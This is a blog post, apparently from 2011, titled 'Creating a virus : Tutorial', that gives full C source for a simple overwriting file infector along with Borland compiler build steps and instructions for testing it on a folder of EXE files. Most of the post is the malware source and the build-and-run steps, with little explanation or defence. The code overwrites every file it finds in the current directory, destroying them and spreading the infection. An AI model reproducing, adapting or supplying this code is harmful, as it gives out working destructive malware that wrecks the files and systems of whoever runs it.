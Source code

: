 ```yaml
---
# http://learn.getgrav.org/content/headers
title: Creating a virus : Tutorial
slug: creating-a-virus-tutorial
# menu: Creating a virus : Tutorial
date: 06-02-2011
published: true
publish_date: 06-02-2011
# unpublish_date: 06-02-2011
# template: false
# theme: false
visible: true
summary:
    enabled: true
    format: short
    size: 128

taxonomy:
    category:
        - Blog
    tag:
        - hacking
        - internet
        - tutorial
        - virus
    author:
        - 'Shashank Agarwal'
    migration-status: review
    category: [hacking,internet,tutorial,virus]
    tag: []
author: 'Shashank Agarwal'
metadata:
    author: 'Shashank Agarwal'
#      description: Your page description goes here
#      keywords: HTML, CSS, XML, JavaScript
#      robots: noindex, nofollow
#      og:
#          title: The Rock
#          type: video.movie
#          url: http://www.imdb.com/title/tt0117500/
#          image: http://ia.media-imdb.com/images/rock.jpg
#  cache_enable: false
#  last_modified: true

---
```


This program is an example of how to create a virus in C. This program demonstrates a simple virus program which upon execution (Running) creates a copy of itself in the other file. Thus it destroys other files by infecting them. But the virus infected file is also capable of spreading the infection to another file and so on. Here’s the source code of the virus program.  
 

\#include  
\#include  
\#include  
\#include  
\#include  
\#include FILE \*virus,\*host;  
int done,a=0;  
unsigned long x;  
char buff[2048];  
struct ffblk ffblk;  
clock\_t st,end;  
void main()  
{  
st=clock();  
clrscr();  
done=findfirst(“\*.\*”,&ffblk,0);  
while(!done)  
{  
virus=fopen(\_argv[0],”rb”);  
host=fopen(ffblk.ff\_name,”rb+”);  
if(host==NULL) goto next;  
x=89088;  
printf(“Infecting %sn”,ffblk.ff\_name,a);  
while(x>2048)  
{  
fread(buff,2048,1,virus);  
fwrite(buff,2048,1,host);  
x-=2048;  
}  
fread(buff,x,1,virus);  
fwrite(buff,x,1,host);  
a++;  
next:  
{  
fcloseall();  
done=findnext(&ffblk);  
}  
}  
printf(“DONE! (Total Files Infected= %d)”,a);  
end=clock();  
printf(“TIME TAKEN=%f SECn”,  
(end-st)/CLK\_TCK);  
getch();  
}

 

### COMPILING METHOD:

 

**USING BORLAND TC++ 3.0 (16-BIT):**  
1. Load the program in the compiler, press Alt-F9 to compile  
2. Press F9 to generate the EXE file (DO NOT PRESS CTRL-F9,THIS WILL INFECT ALL THE FILES IN CUR DIRECTORY INCLUDIN YOUR COMPILER)  
3. Note down the size of generated EXE file in bytes (SEE EXE FILE PROPERTIES FOR IT’S SIZE)  
4. Change the value of X in the source code with the noted down size (IN THE ABOVE SOURCE CODE x= 89088; CHANGE IT)  
5. Once again follow the STEP 1 & STEP 2.Now the generated EXE File is ready to infect

 

**USING BORLAND C++ 5.5 (32-BIT) :**  
1. Compile once,note down the generated EXE file length in bytes  
2. Change the value of X in source code to this length in bytes  
3. Recompile it.The new EXE file is ready to infect

 

### HOW TO TEST:

 

1. Open new empty folder  
2. Put some EXE files (BY SEARCHING FOR \*.EXE IN SEARCH & PASTING IN THE NEW FOLDER)  
3. Run the virus EXE file there you will see all the files in the current directory get infected.  
4. All the infected files will be ready to reinfect  
That’s it



Go to our new site- shankee.com

